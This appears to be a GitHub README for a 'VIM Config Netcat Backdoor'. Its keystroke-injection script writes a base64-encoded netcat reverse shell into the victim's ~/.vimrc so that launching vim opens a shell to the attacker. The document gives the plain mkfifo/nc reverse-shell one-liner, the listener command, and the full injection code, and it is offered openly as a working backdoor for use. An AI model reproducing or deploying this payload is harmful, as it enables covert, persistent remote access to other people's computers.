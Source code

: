 # Linux - VIM Config Netcat Backdoor

## Description

A simple backdoor that execute a base64 encoded netcat reverse shell embedd into a VIM Config file. Run VIM execute the reverse shell.

## Requirement

1. First note this script has been created and tested under Kali Linux 2021.2 as target.
2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.
3. Take the netcat reverse shell of pentest monkey (or whatever) and encode it to base64 using <a href="https://www.base64encode.org/">this site</a>. Then replace the base64 string into the code. I used the netcat reverse shell bellow.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
5. Start a netcat listener in you'r attacker box.
```bash
nc -nvlp 1234
```

NOTE : I suggest to use the website to encode in base64, because trying to do it in zsh terminal on kali truncated the base64 in two line. But of course, you can do it by the way that you want since it work.

## Code

```bash
layout("CH");
typingSpeed(1, 2);
press("CTRL ALT T")
delay(1000)
type("echo '!base64 -d <<< cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4xLjEwMyAxMjM0ID4vdG1wL2Y= | sh' > ~/.vimrc")
press("ENTER")
delay(1000)
type("exit")
delay(1000)
press("ALT F2")
delay(1000)
type("vim wootwoot")
press("ENTER")
```